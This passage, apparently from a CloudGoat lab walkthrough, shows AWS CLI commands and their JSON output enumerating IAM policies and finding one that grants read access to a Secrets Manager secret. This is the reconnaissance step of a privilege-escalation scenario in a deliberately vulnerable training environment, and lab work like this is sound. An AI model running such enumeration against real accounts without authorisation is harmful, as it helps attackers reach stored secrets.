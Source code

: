 Result:
```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "cg_view_secrets_iam_privesc_by_key_rotation_###",
            "PolicyArn": "arn:aws:iam::###:policy/cg_view_secrets_iam_privesc_by_key_rotation_###"
        }
    ]
}
```

Get `cg_view_secrets_iam_privesc_by_key_rotation_###` policy version
```shell
aws --profile kerrigan_manager iam get-policy --policy-arn arn:aws:iam::###:policy/cg_view_secrets_iam_privesc_by_key_rotation_###
```

Result:
```json
{
    "Policy": {
        "PolicyName": "cg_view_secrets_iam_privesc_by_key_rotation_###",
        "Arn": "arn:aws:iam::###:policy/cg_view_secrets_iam_privesc_by_key_rotation_###",
        "DefaultVersionId": "v1"
    }
}
```

The cg_view_secrets_iam_privesc_by_key_rotation_### policy version is `v1`

Get `cg_view_secrets_iam_privesc_by_key_rotation_###` policy permission
```shell
aws --profile kerrigan_manager iam get-policy-version --policy-arn arn:aws:iam::###:policy/cg_view_secrets_iam_privesc_by_key_rotation_### --version-id v1
```

Result:
```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "secretsmanager:ListSecrets",
                    "Effect": "Allow",
                    "Resource": "*"
                },
                {
                    "Action": "secretsmanager:GetSecretValue",
                    "Effect": "Allow",
                    "Resource": "arn:aws:secretsmanager:us-east-1:###:secret:cg_secret_iam_privesc_by_key_rotation_###-37ZBQ3"
                }
            ]
        }
    }
}
```
